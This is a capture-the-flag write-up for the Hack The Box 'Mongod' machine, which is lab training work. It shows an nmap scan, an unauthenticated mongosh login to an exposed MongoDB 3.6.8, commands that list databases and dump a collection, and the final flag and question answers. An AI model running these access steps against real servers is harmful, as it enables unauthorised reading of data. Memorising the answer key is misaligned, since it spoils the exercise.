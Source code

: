 # Mongod

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Tier 0

## Solution

#### 1. How many TCP ports are open on the machine?

*(22 and 27017)*

> 2

#### 2. Which service is running on port 27017 of the remote host?

```sh
$ nmap -sV -p27017 10.129.189.165
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-02 11:35 CET
Nmap scan report for 10.129.189.165
Host is up (0.030s latency).

PORT      STATE SERVICE VERSION
27017/tcp open  mongodb MongoDB 3.6.8

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.47 seconds
```

> MongoDB 3.6.8

#### 3. What type of database is MongoDB? (Choose: SQL or NoSQL)

> NoSQL

#### 4. What is the command name for the Mongo shell that is installed with the mongodb-clients package?

> mongo

#### 5. What is the command used for listing all the databases present on the MongoDB server? (No need to include a trailing ;)

> show dbs

#### 6. What is the command used for listing out the collections in a database? (No need to include a trailing ;)

> show collections

#### 7. What is the command used for dumping the content of all the documents within the collection named flag in a format that is easy to read?

> db.flag.find().pretty()

#### Submit root flag

*(On `MacOS` I use `mongosh` instead of `mongo`)*

```sh
$ mongosh 10.129.189.165
Current Mongosh Log ID:	65e3014842a34027f4314538
Connecting to:		mongodb://10.129.189.165:27017/?directConnection=true&appName=mongosh+2.1.5
(node:67997) [DEP0040] DeprecationWarning: The `punycode` module is deprecated. Please use a userland alternative instead.
(Use `node --trace-deprecation ...` to show where the warning was created)
Using MongoDB:		3.6.8
Using Mongosh:		2.1.5

For mongosh info see: https://docs.mongodb.com/mongodb-shell/

------
   The server generated these startup warnings when booting
   2024-03-02T09:26:05.035+0000: 
   2024-03-02T09:26:05.035+0000: ** WARNING: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine
   2024-03-02T09:26:05.035+0000: **          See http://dochub.mongodb.org/core/prodnotes-filesystem
   2024-03-02T09:26:08.598+0000: 
   2024-03-02T09:26:08.598+0000: ** WARNING: Access control is not enabled for the database.
   2024-03-02T09:26:08.598+0000: **          Read and write access to data and configuration is unrestricted.
   2024-03-02T09:26:08.598+0000:
------

test> show dbs
admin                  32.00 KiB
config                 72.00 KiB
local                  72.00 KiB
sensitive_information  32.00 KiB
users                  32.00 KiB
test> use sensitive_information
switched to db sensitive_information
sensitive_information> show collections
flag
sensitive_information> db.flag.find().pretty()
[
  {
    _id: ObjectId('630e3dbcb82540ebbd1748c5'),
    flag: '1b6e6fb359e7c40241b6d431427ba6ea'
  }
]
```

## Final Flag

> 1b6e6fb359e7c40241b6d431427ba6ea

*Created by [bu19akov](https://github.com/bu19akov)*